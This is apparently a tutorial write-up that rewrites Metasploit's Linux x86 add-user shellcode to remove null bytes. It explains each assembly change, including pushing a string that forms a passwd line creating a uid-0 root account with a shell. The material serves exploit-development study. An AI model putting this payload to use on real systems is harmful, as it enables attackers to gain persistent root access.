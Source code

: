 
Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.

## Changes

First I replace `xor` with `sub` and `mov` with `xor` to zero out registers.

```x86asm
; xor ecx,ecx
sub ecx, ecx

; mov ebx,ecx
xor ebx, ebx
```

I also replaced a `push` and `pop` with a `mov al`. This is dangerous since `al` only sets the least significant byte. However, since we know eax will have the return value of `setreuid()` which is a zero if successful, this should be ok.

```x86asm
; push byte +0x5
; pop eax             
mov al, 0x5
```

Instead of an `xchg`, I `mov` 

```x86asm
; xchg eax,ebx            ; ebx = ptr to file
mov ebx, eax
```

Now, in order to remove nulls I had to change the following code a bit. Instead of just using a `call` to jump to the next section and get a pointer to the payload string here, I switched to pushing the string to the stack and moving the stack pointer into `ecx` to be used as the argument. 


```x86asm
push 0x2d2d6868         ; "---h"
push 0x732f6e69         ; "s/ni"
push 0x622f3a2f         ; "b/:/"
push 0x3a3a303a         ; "::0:"
push 0x303a7372         ; "0:sr"
push 0x54426769         ; "TBgi"
push 0x6f667764         ; "ofwd"
push 0x797a413a         ; "yzA:"
push 0x656d616e         ; "eman"
push 0x72657375         ; "resu"
mov ecx, esp
```


For the next change, I had to remove the clever section where metasploit referenced an opcode to use as the length of the string. I replaced the length of `0x26` with a `0x25` as well. 

```x86asm
; mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
mov dl, 0x25
```
